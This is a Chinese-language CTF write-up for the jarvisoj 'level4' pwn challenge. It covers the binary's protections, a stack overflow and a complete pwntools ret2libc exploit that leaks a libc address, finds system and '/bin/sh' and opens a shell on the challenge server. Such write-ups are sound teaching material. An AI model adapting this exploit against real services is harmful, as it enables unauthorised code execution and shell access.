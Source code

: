 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level4
date: 2022-3-27 17:18:20
permalink: /pages/2e1547494524d19d
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level4

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level4/level4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

vulnerable_function函数及函数表如下

![jarvisoj_level4_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level4_1.png)

## 思路分析

1. 目前信息：
   - `vulnerable_function`函数可溢出
   - 无`system`、`/bin/sh`与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的`ret2libc`解法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level4/level4'
io = remote('node4.buuoj.cn', 26609)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136+4
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
payload = flat(['a'*padding, write_plt, vulnerable_function,1, libc_start_main_got, 4])
io.send(payload)
leak_libc_start_main = u32(io.recv(4))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system, 0xdeadbeef, bin_sh])
io.send(payload)
io.interactive()
```